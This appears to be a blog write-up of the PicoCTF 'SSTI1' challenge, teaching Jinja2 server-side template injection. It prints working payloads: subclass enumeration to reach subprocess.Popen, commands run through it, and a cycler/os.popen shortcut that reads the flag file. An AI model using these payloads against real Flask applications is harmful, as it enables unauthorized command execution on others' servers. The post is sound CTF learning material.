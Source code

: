 ```yaml
---
title: 'SSTI1 - A PicoCTF Challenge'
description: 'A step-by-step walkthrough on exploiting Server-Side Template Injection (SSTI) to achieve code execution and capture the flag.'
pubDate: 'Jun 03 2025'
heroImage: '/blog-placeholder-5.jpg'
categories: ["CTF", "PicoCTF", "Web Exploitation"]
---
```


## 🥧 Challenge Overview

**SSTI1** is a web exploitation challenge that asks us to identify and exploit a Server-Side Template Injection (SSTI) vulnerability to retrieve a flag.

We’re given a web interface that includes an input form:

<img src="/ssti1/webview.png" alt="SSTI1 Challenge" style={{ width: "100%" }} />

Our task is to use this input to run code on the server and ultimately access the flag.

---

## 🔍 Required Understanding

To solve this challenge, we need to understand how Server-Side Template Injection works. SSTI happens when unsanitized user input is passed directly into a template engine like Jinja2, enabling us to inject and evaluate code.

A good way to test for SSTI is to inject simple payloads:

```jinja
{{7*7}}, ${7*7}, <%= 7*7 %>, #{7*7}
```

When we input `{{7*7}}`, the output was `49`, confirming that the application is using **Jinja2** as its template engine:

<img src="/ssti1/77.png" alt="SSTI1 7x7 Result" style={{ width: "100%" }} />

---

## 🧩 Exploitation Steps

### 1. Check the Jinja2 Config

To verify our environment, we inspect the config object:

```jinja
{{ config }}
```

It prints out a typical Flask configuration object. Since nothing sensitive is exposed, we proceed.

---

### 2. Enumerate Python Objects

We attempt to enumerate all subclasses of Python’s `object` type using the following payload:

```jinja
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

This reveals many internal Python classes — one of which is the critical:

```
<class 'subprocess.Popen'>
```

This class allows us to execute system commands.

---

### 3. Find the Index of `subprocess.Popen`

To invoke the `Popen` class, we need its exact index in the list. So we enumerate them with:

```jinja
{% for i in range(0, 450) %}
{{ i }} - {{ ''.__class__.__mro__[1].__subclasses__()[i] }}
{% endfor %}
```

This reveals:

```text
356 - <class 'subprocess.Popen'>
```

Perfect. We’ll use index 356 in the next step.

---

### 4. Execute Commands

We test code execution by listing files using `Popen`:

```jinja
{{ ''.__class__.__mro__[1].__subclasses__()[356]('ls', shell=True, stdout=-1).communicate()[0].decode() }}
```

The output confirms that we successfully ran a system command and got:

```text
__pycache__ app.py flag requirements.txt
```

---

### 5. Read the Flag

Now that we have working RCE, we can read the `flag` file:

```jinja
{{ ''.__class__.__mro__[1].__subclasses__()[356]('cat flag', shell=True, stdout=-1).communicate()[0].decode() }}
```

And there it is — the flag.

<img src="/ssti1/flag.png" alt="SSTI1 Flag" style={{ width: "100%" }} />

---

## 💡 Nice to Know

An alternative way to access system commands uses the `cycler` module:

```jinja
{{ cycler.__init__.__globals__['os'].popen('cat flag').read() }}
```

### 🤔 Why Not Use `cycler` First?

In CTFs or real-world apps, the `cycler` method may not always be available. That’s why going through Python's subclass hierarchy is more reliable.

| Method                                    | Strengths                                | Weaknesses                                           |
|------------------------------------------|------------------------------------------|------------------------------------------------------|
| `{{ cycler.__init__.__globals__['os'] }}` | ✅ Short and simple                       | ❌ Might be sandboxed or disabled in secure setups   |
| `{{ subclasses()[index] }}`               | ✅ Works in hardened environments         | ❌ Slightly more work to find the correct index      |

---

## 🧠 Final Thoughts

This challenge shows how powerful SSTI can be when user input is handled carelessly. By understanding how Jinja2 templates interact with Python’s object system, we’re able to move from simple arithmetic to full command execution.

---

## 🔗 Challenge Link

[SSTI1 | PicoCTF Challenge](https://play.picoctf.org/practice/challenge/492?originalEvent=74&page=1)
